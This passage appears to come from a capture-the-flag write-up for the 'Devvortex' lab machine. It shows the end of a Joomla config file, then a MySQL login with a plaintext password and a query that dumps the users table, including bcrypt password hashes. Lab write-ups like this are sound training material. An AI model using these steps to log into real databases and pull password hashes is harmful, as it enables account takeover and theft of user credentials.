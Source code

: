 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
        public $lifetime = 15;
        public $session_handler = 'database';
        public $shared_session = false;
        public $session_metadata = true;
}

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



Connect to Mysql

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<b/templates/cassiopeia$ mysql -u lewis -D joomla -p         
Enter password: P4ntherg0t1n5r3c0n##

Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 121
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show tables;
------------------------
select * from sd4fg_users;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-12-01 20:51:04 | 0          |                                                                                                                                                         | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
2 rows in set (0.00 sec)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~